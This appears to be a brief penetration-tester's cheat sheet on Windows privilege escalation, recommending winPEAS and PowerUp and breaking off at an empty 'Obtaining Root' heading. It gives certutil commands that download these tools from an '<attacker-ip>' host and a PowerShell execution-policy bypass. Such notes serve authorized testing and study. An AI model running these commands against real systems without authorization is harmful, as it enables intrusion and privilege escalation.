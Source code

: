 # Common PrivEsc Methods

Here are some things I do for windows privesc.

## Identifying Privesc Vector

First I like installing a `PowerUP` *AND* `winPEAS`. Using these tools will help us find the attack vector `80%` of the time.

### winPEAS

winPEAS is great to find some loot and privesc. Make sure to read fine print.

```cmd
certutil -urlcache -split -f http://<attacker-ip>/winPEAS.exe winPEAS.exe
```

### PowerUP

PowerUp has some awesome utility. Check their official documentation for more info. To run all checks do the following:

```cmd
$ certutil -urlcache -split -f http://<attacker-ip>/PowerUp.ps1 PowerUp.ps1
$ powershell -ep bypass
$ .\PowerUp.ps1; Invoke-AllChecks
```

## Obtaining Root

